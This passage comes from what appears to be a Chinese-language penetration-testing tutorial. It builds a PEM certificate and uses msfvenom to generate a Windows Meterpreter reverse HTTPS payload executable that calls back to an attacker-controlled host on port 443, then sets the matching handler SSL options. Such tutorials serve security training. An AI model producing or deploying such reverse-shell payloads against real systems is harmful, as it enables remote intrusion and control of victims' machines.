 ![](img/47258e16-84a4-43ae-9b07-dbe445ac2b7a.png)

我们填写信息，如国家代码和其他信息：

```
 cat meterpreter.key meterpreter.crt > meterpreter.pem
```

1.  前面的命令基本上打开了两个文件，然后将它们写入一个文件。然后我们使用我们生成的证书来生成一个载荷：

```
 msfvenom -p windows/meterpreter/reverse_winhttps LHOST=IP
        LPORT=443 HandlerSSLCert=meterpreter.pem
        StagerVerifySSLCert=true
        -f exe -o payload.exe
```

以下截图显示了前面命令的输出：

![](img/32122a12-11f3-44bd-8b56-fd08c8dcb269.png)

1.  要设置选项，我们使用以下命令：

```
 set HandlerSSLCert /path/to/pem_file
 set StagerVerifySSLCert true
```
